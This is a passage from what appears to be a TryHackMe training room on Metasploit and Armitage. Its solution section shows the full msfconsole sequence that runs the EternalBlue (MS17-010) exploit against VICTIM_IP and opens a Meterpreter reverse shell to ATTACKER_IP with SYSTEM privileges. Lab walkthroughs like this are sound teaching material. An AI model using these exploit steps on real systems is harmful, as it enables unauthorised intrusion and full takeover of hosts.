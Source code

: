   

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/d26c03ba17e96c1e5ca70ca8a7b76260.png)

_A Successful Exploitation Attempt from Armitage_

  

After you receive your shell, right-click on the host and select "Interact". This will open a standard shell you're familiar with. In order to get a Meterpreter shell, we recommend that you run the multi/manage/shell_to_meterpreter module.

  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/b08eff73b568e5d4ccc8d4be6a915b88.png)

_Compromised Host in Armitage_

Practice Time  

Now that you have learned how to exploit hosts using Armitage, you will now get to practice your skills by hacking the virtual machine by using Metasploit and Armitage. There are multiple exploit paths that you may be able to follow. We encourage you to explore the various exploit paths you may be able to find in order to gain a better understanding of exploitation and post-exploitation modules in Metasploit and Armitage. As a reminder, Armitage is just Metasploit with a GUI; all the same exploits exist and are categorized the same way.

  

#### Solution

If you are having difficulties with compromising the machine, here's a step-by-step guide to compromise the VM with Metasploit. If you would like to use Armitage, use this [guide that shows step-by-step](https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing) instructions. Now onto Metasploit!  
  
Our first step is to launch Metasploit:  

LaunchingMetasploitand using Eternal Blue!

```shell-session
root@attackbox$ msfconsole -q
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
LHOST => eth0
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IP
RHOST => VICTIM_IP
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)
[*] VICTIM_IP:445 - Connecting to target for exploitation.
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
